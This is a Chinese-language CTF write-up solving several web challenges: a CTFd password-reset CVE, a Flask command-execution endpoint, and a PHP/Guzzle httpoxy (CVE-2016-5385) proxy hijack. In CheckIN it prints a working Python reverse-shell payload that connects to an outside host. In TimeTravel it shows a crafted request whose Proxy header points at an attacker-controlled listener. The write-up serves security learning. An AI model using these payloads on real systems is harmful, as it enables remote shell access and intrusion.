

## HappyCTFd

打开发现是一个CTFD的平台，搜索一下发现存在漏洞CVE-2020-7245，修改admin的密码

https://www.colabug.com/2020/0204/6940556/amp/

发现有一个题目名字叫做flagflag你在哪

<!--more-->

在file处有一个miaoflag文件打开就是flag




## CheckIN

打开题目就是源码

```
from flask import Flask, request
import os
app = Flask(__name__)

flag_file = open("flag.txt", "r")
# flag = flag_file.read()
# flag_file.close()
#
# @app.route('/flag')
# def flag():
#     return flag
## want flag? naive!

# You will never find the thing you want:) I think
@app.route('/shell')
def shell():
    os.system("rm -f flag.txt")
    exec_cmd = request.args.get('c')
    os.system(exec_cmd)
    return "1"

@app.route('/')
def source():
    return open("app.py","r").read()

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

发现flag_file已经打开了flag.txt

可以执行系统命令，发现用bash弹shell用不了

使用DNS/OOB记录所有文件

DNS/OOB[参考文章](https://www.freebuf.com/articles/database/183997.html)

手残了一下把（ls -R/）所有进行了dns解析

使用VPSnc监听12345端口

nc -lvvp 12345

payload

```
?c=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ns.seye.gq",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

进去之后发现没有grep功能，

ls -alR /

列出所有文件搜索flag


## EasySpringMVC

提供了源码，下载下来进行代码审计


## TimeTravel

打开就是源码

```
<?php
error_reporting(0);
require __DIR__ . '/vendor/autoload.php';

use GuzzleHttp\Client;

highlight_file(__FILE__);

if(isset($_GET['flag'])) {
    $client = new Client();
    $response = $client->get('http://127.0.0.1:5000/api/eligible');
    $content = $response->getBody();
    $data = json_decode($content, TRUE);
    if($data['success'] === true) {   //true返回值是数组,否则返回值为object
      echo system('/readflag');
    }
}

if(isset($_GET['file'])) {
    highlight_file($_GET['file']);
}

if(isset($_GET['phpinfo'])) {
    phpinfo();
}
```

查看phpinfo

是5.6.23版本的

发现没有禁用函数

| allow_url_fopen   | On   |
| ----------------- | ---- |
| allow_url_include | Off  |

存在任意文件读取

```
//autoload.php
require_once __DIR__ . '/composer/autoload_real.php';

return ComposerAutoloaderInit52ffee59545490028d211df73b41c57d::getLoader();
```

```
//autoload_real.php

```

```
//./vendor/composer/ClassLoader.php
```

~~看到guzzlehttp/guzzle有任意写文件漏洞https://www.anquanke.com/post/id/86452~~

查看composer.json

```
//composer.json
{
   "require": {
      "guzzlehttp/guzzle": "6.2.0"
   }
}
```


出题人[赵师傅博客](https://www.zhaoj.in/read-6407.html)也说了是改自https://github.com/vulhub/vulhub/tree/master/cgi/httpoxy


考点是cgi 的httpproxy漏洞（CVE-2016-5385） vulhub上有漏洞说明

> CGI的英文是（COMMON GATEWAY INTERFACE）公共网关接口，它的作用就是帮助服务器与语言通信，这里就是nginx和php进行通信，因为nginx和php的语言不通，因此需要一个沟通转换的过程，而CGI就是这个沟通的协议。
>
> nginx服务器在接受到浏览器传递过来的数据后，如果请求的是静态的页面或者图片等无需动态处理的则会直接根据请求的url找到其位置然后返回给浏览器，这里无需php参与，但是如果是一个动态的页面请求，这个时候nginx就必须与php通信，这个时候就会需要用到cgi协议，将请求数据转换成php能理解的信息，然后php根据这些信息返回的信息也要通过cgi协议转换成nginx可以理解的信息，最后nginx接到这些信息再返回给浏览器。
>
> 
>
>


访问请求时，添加一个proxy头部，浏览就会转发到 代理服务器，此时的访问就变成了代理服务器的127.0.0.1:500

```
$response = $client->get('http://127.0.0.1:5000/api/eligible');
```

在代理服务器中弄一个web服务器，api/eligible的内容为

```
{"success":True}
```

即可得到。

**注意**

由于在buuoj上无法访问外网，但是可以获取一台内网linux的控制权，搭建一台代理服务器，也有更简单的方式，

创建一个文件内容为例如 a.txt

```
HTTP/1.1 200 OK

{"success":true}
```

在linux上使用命令

```
nc -lvp 1234 < a.txt
```

然后发访问http://xxx/?flag，抓包添加一个proxy头部 地址为你获取控制权的linux ip地址

```
GET /?flag HTTP/1.1
Host: node3.buuoj.cn:25315
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0, no-cache
Proxy: http://174.0.246.216:1234/
Pragma: no-cache
```

即可获取flag

```
 
 ········
 
#DD0000">'phpinfo'</span><span style="color: #007700">]))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">phpinfo</span><span style="color: #007700">();<br />}<br /></span>
</span>
</code>flag{7d7b2c9e-088c-4733-b70a-8ff3351479a7}
flag{7d7b2c9e-088c-4733-b70a-8ff3351479a7}
```

